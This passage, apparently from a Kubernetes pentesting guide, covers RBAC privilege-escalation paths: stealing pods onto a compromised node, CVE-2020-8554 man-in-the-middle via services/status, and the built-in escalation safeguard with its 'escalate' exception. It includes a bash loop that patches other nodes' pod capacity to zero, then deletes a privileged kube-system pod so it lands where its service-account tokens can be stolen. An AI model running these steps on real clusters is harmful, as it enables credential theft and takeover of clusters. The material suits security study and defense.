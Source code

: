 Principals that can **delete pods** (`delete` verb over `pods` resource), or **evict pods** (`create` verb over `pods/eviction` resource), or **change pod status** (access to `pods/status`) and can **make other nodes unschedulable** (access to `nodes/status`) or **delete nodes** (`delete` verb over `nodes` resource) and has control over a pod, could **steal pods from other nodes** so they are **executed** in the **compromised** **node** and the attacker can **steal the tokens** from those pods.

```bash
patch_node_capacity(){
    curl -s -X PATCH 127.0.0.1:8001/api/v1/nodes/$1/status -H "Content-Type: json-patch+json" -d '[{"op": "replace", "path":"/status/allocatable/pods", "value": "0"}]'
}

while true; do patch_node_capacity <id_other_node>; done &
#Launch previous line with all the nodes you need to attack

kubectl delete pods -n kube-system <privileged_pod_name>
```

### Services status (CVE-2020-8554)

Principals that can **modify** **`services/status`** may set the `status.loadBalancer.ingress.ip` field to exploit the **unfixed CVE-2020-8554** and launch **MiTM attacks against the clus**ter. Most mitigations for CVE-2020-8554 only prevent ExternalIP services (according to [**this**](https://github.com/PaloAltoNetworks/rbac-police/blob/main/lib/modify_service_status_cve_2020_8554.rego)).

### Nodes and Pods status

Principals with **`update`** or **`patch`** permissions over `nodes/status` or `pods/status`, could modify labels to affect scheduling constraints enforced.

## Built-in Privileged Escalation Prevention

Kubernetes has a [built-in mechanism](https://kubernetes.io/docs/reference/access-authn-authz/rbac/#privilege-escalation-prevention-and-bootstrapping) to prevent privilege escalation.

This system ensures that **users cannot elevate their privileges by modifying roles or role bindings**. The enforcement of this rule occurs at the API level, providing a safeguard even when the RBAC authorizer is inactive.

The rule stipulates that a **user can only create or update a role if they possess all the permissions the role comprises**. Moreover, the scope of the user's existing permissions must align with that of the role they are attempting to create or modify: either cluster-wide for ClusterRoles or confined to the same namespace (or cluster-wide) for Roles.

> [!WARNING]
> There is an exception to the previous rule. If a principal has the **verb `escalate`** over **`roles`** or **`clusterroles`** he can increase the privileges of roles and clusterroles even without having the permissions himself.

### **Get & Patch RoleBindings/ClusterRoleBindings**

> [!CAUTION]
> **Apparently this technique worked before, but according to my tests it's not working anymore for the same reason explained in the previous section. Yo cannot create/modify a rolebinding to give yourself or a different SA some privileges if you don't have already.**
